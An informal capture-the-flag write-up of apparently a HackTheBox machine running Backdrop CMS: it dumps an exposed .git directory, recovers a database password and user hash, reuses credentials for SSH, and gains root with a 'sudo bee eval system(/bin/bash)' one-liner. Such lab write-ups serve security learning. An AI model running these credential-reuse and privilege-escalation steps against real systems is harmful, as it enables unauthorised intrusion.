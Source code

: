 ___


# User


Powered by [Backdrop CMS](https://backdropcms.org)

apache [2.4.41]


.git directory was found

-> there is hella dirs an ?q= in robots.txt

get git objects and explore that shit


*dumped and extracted .git dir*


$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
$database_prefix = '';

BackDropJ2024DS2024


I think  nothing else in here ? more enum -> subdomains + feroxbuster

dogBackDropSystem

dogBackDropSystem2024DS2024

-> this is a user on site


$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
$database_prefix = '';


*found backdrop version*

; Added by Backdrop CMS packaging script on 2024-03-07
project = backdrop
version = 1.27.1
timestamp = 1709862662

*next time search the docs for the cms to find a file that gives  you the version*
*bruvs i spent so long looking :0*


*if you do grep -R "@dog.htb" to look for other accounts and spray creds into tiffany account u get access into the web ui*


*got a shell*

$ cd home
$ ls
jobert
johncusack


*dumped the users mysql table after upgrading my shell*


*jobert hash*
$S$E/F9mVPgX4.dGDeDuKxPdXEONCzSvGpjxUeMALZ2IjBrve9Rcoz1



*johncusack is the user with the user.txt flag so maybe try cracking that hash cause this finna take forever at this rate*

*jobert and johncusack are the 2 users with home dirs *


database password works on johncusack user


# Root


*this is prob its*

johncusack@dog:~$ sudo -l
[sudo] password for johncusack: 
Matching Defaults entries for johncusack on dog:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User johncusack may run the following commands on
        dog:
    (ALL : ALL) /usr/local/bin/bee


*this got me root*

**Priv Esc When bee can run without password** 
#BackDrop CMS 
sudo bee eval "system('/bin/bash');"

#In case of `The required bootstrap level for 'eval' is not ready.` Error
#Find the application path  - generally in /var/www/html
sudo /usr/local/bin/bee --root=/var/www/html eval "system('/bin/bash');"

